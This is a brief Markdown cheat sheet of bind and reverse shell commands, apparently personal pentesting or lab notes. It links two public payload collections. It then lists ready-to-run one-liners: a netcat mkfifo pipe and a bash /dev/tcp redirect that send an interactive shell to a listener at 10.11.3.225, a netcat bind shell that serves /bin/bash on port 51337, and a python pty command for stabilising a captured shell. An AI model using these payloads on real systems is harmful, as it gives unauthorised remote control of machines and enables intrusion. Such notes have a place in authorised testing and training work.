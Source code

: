 # Bind / Reverse Shell

## Tips : 
https://www.revshells.com/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php  

### Reverse shell basic payloads
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.225 1234 >/tmp/f
bash -i >& /dev/tcp/10.11.3.225/1234 0>&1
```


### BIND SHELL :
***Remote***
```bash
nc -nlvp 51337 -e /bin/bash
```
***Local***
```bash
nc IP 51337
```


### STABILISER UN REVERSE SHELL
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
export TERM=xterm ; export SHELL=bash
```
